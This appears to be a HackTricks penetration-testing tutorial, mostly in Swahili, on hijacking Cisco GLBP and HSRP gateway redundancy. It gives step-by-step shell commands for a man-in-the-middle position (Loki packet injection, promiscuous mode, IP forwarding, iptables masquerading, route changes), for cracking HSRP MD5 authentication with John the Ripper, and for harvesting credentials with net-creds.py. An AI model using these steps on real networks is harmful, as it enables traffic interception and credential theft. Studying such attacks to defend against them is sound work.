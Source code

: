 # GLBP & HSRP Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## FHRP Hijacking Overview

### Insights into FHRP
FHRP imeundwa ili kutoa uimara wa mtandao kwa kuunganisha route nyingi katika kitengo kimoja cha virtual, hivyo kuboresha usambazaji wa mzigo na uvumilivu wa makosa. Cisco Systems ilianzisha protokali maarufu katika seti hii, kama GLBP na HSRP.

### GLBP Protocol Insights
Uundaji wa Cisco, GLBP, unafanya kazi kwenye TCP/IP stack, ukitumia UDP kwenye bandari 3222 kwa mawasiliano. Route katika kundi la GLBP hubadilishana pakiti za "hello" kila sekunde 3. Ikiwa router itashindwa kutuma pakiti hizi kwa sekunde 10, inachukuliwa kuwa haipo mtandaoni. Hata hivyo, hizi timers si za kudumu na zinaweza kubadilishwa.

### GLBP Operations and Load Distribution
GLBP inajitofautisha kwa kuwezesha usambazaji wa mzigo kati ya route kwa kutumia IP moja ya virtual iliyo na anwani nyingi za MAC za virtual. Katika kundi la GLBP, kila router inahusika katika kupeleka pakiti. Tofauti na HSRP/VRRP, GLBP inatoa usawa wa mzigo wa kweli kupitia mitindo kadhaa:

- **Host-Dependent Load Balancing:** Inahifadhi usambazaji wa anwani ya MAC ya AVF kwa mwenyeji, muhimu kwa usanidi thabiti wa NAT.
- **Round-Robin Load Balancing:** Njia ya kawaida, ikibadilisha usambazaji wa anwani ya MAC ya AVF kati ya wenyeji wanaohitaji.
- **Weighted Round-Robin Load Balancing:** Inasambaza mzigo kulingana na viwango vilivyowekwa vya "Weight".

### Key Components and Terminologies in GLBP
- **AVG (Active Virtual Gateway):** Router kuu, inayohusika na kugawa anwani za MAC kwa route wenza.
- **AVF (Active Virtual Forwarder):** Router iliyopewa kusimamia trafiki ya mtandao.
- **GLBP Priority:** Kipimo kinachotathmini AVG, ikianza kwa kiwango cha kawaida cha 100 na kuanzia kati ya 1 na 255.
- **GLBP Weight:** Inaonyesha mzigo wa sasa kwenye router, inayoweza kubadilishwa kwa mikono au kupitia Object Tracking.
- **GLBP Virtual IP Address:** Inatumika kama lango la kawaida la mtandao kwa vifaa vyote vilivyounganishwa.

Kwa mawasiliano, GLBP inatumia anwani ya multicast iliyohifadhiwa 224.0.0.102 na bandari ya UDP 3222. Route hutuma pakiti za "hello" kila sekunde 3, na zinachukuliwa kuwa hazifanyi kazi ikiwa pakiti itakosa kwa muda wa sekunde 10.

### GLBP Attack Mechanism
Mshambuliaji anaweza kuwa router kuu kwa kutuma pakiti ya GLBP yenye thamani ya kipaumbele ya juu zaidi (255). Hii inaweza kusababisha mashambulizi ya DoS au MITM, ikiruhusu kukamatwa au kuelekeza trafiki.

### Executing a GLBP Attack with Loki
[Loki](https://github.com/raizo62/loki_on_kali) inaweza kufanya shambulizi la GLBP kwa kuingiza pakiti yenye kipaumbele na uzito uliowekwa kuwa 255. Hatua za kabla ya shambulizi zinajumuisha kukusanya taarifa kama anwani ya IP ya virtual, uwepo wa uthibitisho, na thamani za kipaumbele za router kwa kutumia zana kama Wireshark.

Attack Steps:
1. Switch to promiscuous mode and enable IP forwarding.
2. Identify the target router and retrieve its IP.
3. Generate a Gratuitous ARP.
4. Inject a malicious GLBP packet, impersonating the AVG.
5. Assign a secondary IP address to the attacker's network interface, mirroring the GLBP virtual IP.
6. Implement SNAT for complete traffic visibility.
7. Adjust routing to ensure continued internet access through the original AVG router.

By following these steps, the attacker positions themselves as a "man in the middle," capable of intercepting and analyzing network traffic, including unencrypted or sensitive data.

For demonstration, here are the required command snippets:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

### Passive Explanation of HSRP Hijacking with Command Details

#### Overview of HSRP (Hot Standby Router/Redundancy Protocol)
HSRP ni protokali ya miliki ya Cisco iliyoundwa kwa ajili ya upungufu wa lango la mtandao. Inaruhusu usanidi wa route nyingi za kimwili kuwa kitengo kimoja cha mantiki chenye anwani ya IP iliyoshirikiwa. Kitengo hiki cha mantiki kinadhibitiwa na router kuu inayohusika na kuelekeza trafiki. Tofauti na GLBP, ambayo inatumia vipimo kama kipaumbele na uzito kwa ajili ya usawa wa mzigo, HSRP inategemea router moja inayofanya kazi kwa usimamizi wa trafiki.

#### Roles and Terminology in HSRP
- **HSRP Active Router**: Kifaa kinachofanya kazi kama lango, kinachosimamia mtiririko wa trafiki.
- **HSRP Standby Router**: Router ya akiba, tayari kuchukua nafasi ikiwa router inayofanya kazi itashindwa.
- **HSRP Group**: Seti ya route zinazoshirikiana kuunda router moja ya virtual yenye nguvu.
- **HSRP MAC Address**: Anwani ya MAC ya virtual iliyotolewa kwa router ya mantiki katika usanidi wa HSRP.
- **HSRP Virtual IP Address**: Anwani ya IP ya virtual ya kundi la HSRP, inayofanya kazi kama lango la default kwa vifaa vilivyounganishwa.

#### HSRP Versions
HSRP inakuja katika toleo mbili, HSRPv1 na HSRPv2, zinazotofautiana hasa katika uwezo wa kundi, matumizi ya IP ya multicast, na muundo wa anwani ya MAC ya virtual. Protokali hii inatumia anwani maalum za IP za multicast kwa ajili ya kubadilishana taarifa za huduma, huku pakiti za Hello zikitumwa kila sekunde 3. Router inachukuliwa kuwa haifanyi kazi ikiwa hakuna pakiti inayopokelewa ndani ya kipindi cha sekunde 10.

#### HSRP Attack Mechanism
Mashambulizi ya HSRP yanahusisha kuchukua kwa nguvu jukumu la Router Inayofanya Kazi kwa kuingiza thamani ya kipaumbele cha juu zaidi. Hii inaweza kusababisha shambulizi la Man-In-The-Middle (MITM). Hatua muhimu kabla ya shambulizi ni kukusanya data kuhusu usanidi wa HSRP, ambayo inaweza kufanywa kwa kutumia Wireshark kwa ajili ya uchambuzi wa trafiki.

#### Steps for Bypassing HSRP Authentication
1. Hifadhi trafiki ya mtandao inayokuwa na data za HSRP kama faili ya .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Toa hash za MD5 kutoka kwa faili ya .pcap kwa kutumia hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Fanya crack hash za MD5 kwa kutumia John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Executing HSRP Injection with Loki**

1. Anzisha Loki ili kubaini matangazo ya HSRP.
2. Weka kiunganishi cha mtandao katika hali ya promiscuous na kuwezesha IP forwarding.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Tumia Loki kulenga router maalum, ingiza nenosiri la HSRP lililovunjwa, na fanya usanidi unaohitajika ili kujifanya kuwa Router Inayofanya Kazi.
4. Baada ya kupata jukumu la Router Inayofanya Kazi, fanya usanidi wa kiunganishi chako cha mtandao na IP tables ili kukamata trafiki halali.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Badilisha jedwali la routing ili kuelekeza trafiki kupitia Router ya zamani Inayofanya Kazi.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Tumia net-creds.py au zana inayofanana kukamata akidi kutoka kwa trafiki iliyokamatwa.
```shell
sudo python2 net-creds.py -i eth0
```

Kutekeleza hatua hizi kunamweka mshambuliaji katika nafasi ya kukamata na kubadilisha trafiki, sawa na utaratibu wa utekaji wa GLBP. Hii inaonyesha udhaifu katika protokali za upungufu kama HSRP na hitaji la hatua thabiti za usalama.


## References
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
